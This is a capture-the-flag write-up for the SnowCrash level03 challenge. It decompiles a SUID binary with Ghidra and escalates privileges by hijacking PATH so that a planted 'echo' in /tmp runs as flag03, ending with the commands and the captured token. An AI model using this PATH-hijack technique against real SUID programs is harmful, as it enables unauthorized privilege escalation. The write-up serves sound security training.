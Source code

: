 # Level03

A binary file named `level03` with **SUID** bit set is present in the home directory. The owner of the file is `flag03`. This is a possible attack vector.

#### Tests:
- Execute the binary file outputs `Exploit me`
- Feed content to the binary as infile seems ignored

We are going to download the binary to our machine with the `scp` command and send it to **Ghidra's** code browser. This gives us juicy results.

```c
int main(int argc,char **argv,char **envp)
{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;
  
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}
```

While inspecting the main function, we can see that a call to the `system()` function is made with `"/usr/bin/env echo Exploit me"` as argument.  
  
Tricking the system while prepending a writable directory to the `PATH` variable let's us set a disguised binary as `echo`. When `echo` will be searched in the paths, if our directory is first and a binary is found, it will execute it with `flag03`'s privileges.  
  
The idea is to copy `/bin/getflag` as `echo` in `/tmp` folder wich is writable. Then prepend `/tmp` to the `PATH` variable as such `export PATH=/tmp:$PATH` and execute `./level03` to get the flag.

```
level03@SnowCrash:~$ whereis getflag
getflag: /bin/getflag
level03@SnowCrash:~$ cp /bin/getflag /tmp/echo
level03@SnowCrash:~$ export PATH=/tmp:$PATH
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
